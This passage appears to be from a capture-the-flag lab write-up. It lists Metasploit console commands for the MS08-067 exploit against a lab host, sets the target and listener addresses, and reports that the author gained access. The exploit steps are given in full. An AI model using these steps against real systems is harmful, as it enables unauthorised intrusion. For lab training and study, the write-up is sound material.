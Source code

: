 ![](images-legacy/11.png)


**Commands:**
```
msfconsole
msf> search ms08-067
msf> use 0
msf> show options
msf> set RHOSTS 10.10.10.4
msf> set LHOST 10.10.14.12
msf> exploit
```

I went through metasploit framework and used ms08-067 exploit with the required settings, and tried exploiting the system. I was successful to get the access, and ignore my "whoami" error, I am a old-school linux guy, I am not good with Windows. Windows is like my tenth language, not even second!

![](images-legacy/flags.png)
